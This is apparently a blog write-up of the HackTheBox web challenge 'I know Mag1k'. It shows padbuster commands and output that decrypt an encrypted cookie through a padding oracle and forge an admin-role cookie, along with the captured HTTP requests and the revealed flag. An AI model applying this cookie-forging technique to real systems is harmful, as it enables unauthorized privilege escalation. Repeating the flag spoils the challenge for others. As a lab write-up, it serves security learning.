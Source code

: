 ```yaml
---
title: I know Mag1k Challenge- HackTheBox
author: pwnd_root
date: 2020-07-24 05:30:00 +0530
excerpt: Note that this is still an active challenge, so it's highly recommended that you try a bit harder before heading inside. 
         Feel free to reach me on my socials for spoiler-free nudges.
categories: [HackTheBox, Challenge]
thumbnail: /assets/img/posts/iknowmag1k/info.png
tags: [htb, web, padbuster, burpsuite]
---
```

> Note: Decoding and encoding the padding takes a substantial time and so the cookie values would be different. 
> So blind copy-paste of commands as-is is not recommended and is never recommended any where else either. 


![Info](/assets/img/posts/iknowmag1k/info.png)

Browsing to the generated instance, [http://docker.hackthebox.eu:30256/login.php](http://docker.hackthebox.eu:30256/login.php)
revealed a login page. The source code of the page offered no useful information and lazy admin passwords did not
work. Therefore, a new user registration was carried out with the following values.
```text
Username    : testuser
email       : test@magic.htb
password    : Offsec@098
```
Upon registration, a login was carried out with **testuser:Offsec@098**, which redirected to 
[http://docker.hackthebox.eu:30256/profile.php](http://docker.hackthebox.eu:30256/profile.php), a static user profile
page with no useful information. The request was captured with *BurpSuite* for analysis and it revealed an interesting
cookie. The captured request is given below.
```html
GET /profile.php HTTP/1.1
Host: docker.hackthebox.eu:30256
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://docker.hackthebox.eu:30256/login.php

Connection: close
Cookie: ajs_anonymous_id=%224d9cd715-9f20-4d7c-a76b-a9a997d488c5%22; _ga=GA1.2.882945546.1595059372; _gid=GA1.2.1728392017.1595059372; ajs_user_id=%22cc1ac718e4e7ad76d05f28503f223c0a%22; __auc=c2a763ba17368c420ce42ebe869; PHPSESSID=s667u5g10dk1f1l40h0473ml35; iknowmag1k=yriBS24SRCyrBeCi4PgJH00Xah22stPDhIPG5%2Bo%2FIcWQFSxCntd3latWhR31u2dq0%2Fs2oe05D9M%3D
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
From the challenge title, as well as the stand-alone name, the cookie 
**iknowmag1k=yriBS24SRCyrBeCi4PgJH00Xah22stPDhIPG5%2Bo%2FIcWQFSxCntd3latWhR31u2dq0%2Fs2oe05D9M%3D** seemed interesting.
With a bit of googling and scouring the forum, it was identified as *padding oracle*[^footnote]. 
<br>
Using ***padbuster***, the value was decrypted as follows.
```shell 
[pwnd_root@manjaro IKnowMag1k]$ padbuster http://docker.hackthebox.eu:30256/profile.php yriBS24SRCyrBeCi4PgJH00Xah22stPDhIPG5%2Bo%2FIcWQFSxCntd3latWhR31u2dq0%2Fs2oe05D9M%3D 8 --cookies iknowmag1k=yriBS24SRCyrBeCi4PgJH00Xah22stPDhIPG5%2Bo%2FIcWQFSxCntd3latWhR31u2dq0%2Fs2oe05D9M%3D

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: login.php
[+] Content Length: 0

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 6 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       302     0       login.php
2 **    255     500     0       N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2
---SNIP---
-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): {"user":"testuser","role":"user"}

[+] Decrypted value (HEX): 7B2275736572223A227465737475736572222C22726F6C65223A2275736572227D0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F

[+] Decrypted value (Base64): eyJ1c2VyIjoidGVzdHVzZXIiLCJyb2xlIjoidXNlciJ9Dw8PDw8PDw8PDw8PDw8P

-------------------------------------------------------
```
After a substantial amount of time, *padbuster* had decrypted the cookie value to be 
**{"user":"testuser","role":"user"}**. This implies that the target identifies users and their roles through this cookie.
Therefore by changing the value of role to 'admin', we should, theoretically, get access as admin.
<br>
Luckily, padbuster can also be used to encode data with the *-plaintext* option as 
 **-plaintext "{\"user\":\"testuser\",\"role\":\"admin\"}"**. The same is given in the section below.

```shell 
[pwnd_root@manjaro IKnowMag1k]$ padbuster http://docker.hackthebox.eu:30407/profile.php 2Motz05ZxzBumLZHGAWo0CQd1iuyzY1CCbnARHQoKdDmAtAGg9Fk58HFXrnqgL4O%2BbWfLa6SPoc%3D 8 --cookies iknowmag1k=2Motz05ZxzBumLZHGAWo0CQd1iuyzY1CCbnARHQoKdDmAtAGg9Fk58HFXrnqgL4O%2BbWfLa6SPoc%3D -plaintext "{\"user\":\"testuser\",\"role\":\"admin\"}"

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: login.php
[+] Content Length: 0

INFO: Starting PadBuster Encrypt Mode
---SNIP---
-------------------------------------------------------
** Finished ***

[+] Encrypted value is: pre7WDXGUZOwH7WQkWv01hoj3uN85OECjW1S10LFuOJzE0TAZaxhmAAAAAAAAAAA
-------------------------------------------------------
```
The identified value is replaced for the captured original cookie and the request is sent again, through 
BurpSuite *Repeater*. The flag was received on the response.

**Request**
```html
GET /profile.php HTTP/1.1
Host: docker.hackthebox.eu:30407
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ajs_anonymous_id=%224d9cd715-9f20-4d7c-a76b-a9a997d488c5%22; _ga=GA1.2.882945546.1595059372; _gid=GA1.2.1728392017.1595059372; ajs_user_id=%22cc1ac718e4e7ad76d05f28503f223c0a%22; __auc=c2a763ba17368c420ce42ebe869; PHPSESSID=s667u5g10dk1f1l40h0473ml35; iknowmag1k=pre7WDXGUZOwH7WQkWv01hoj3uN85OECjW1S10LFuOJzE0TAZaxhmAAAAAAAAAAA
Upgrade-Insecure-Requests: 1
```
**Response**
```html
       <div class="author">
         <a href="#">
         <img class="avatar border-gray" src="/assets/img/avatar.png" alt="..."/>
         <h4 class="title">
            Admin<br />
            <small>
               HTB{Padd1NG_Or4cl3z_AR3_WaY_T0o_6en3r0ys_ArenT_tHey???}
            </small>
         </h4>
         </a>
       </div>                                   
```

![Flag](/assets/img/posts/iknowmag1k/flag.png)

[^footnote]:[https://resources.infosecinstitute.com/padding-oracle-attack-2/](https://resources.infosecinstitute.com/padding-oracle-attack-2/)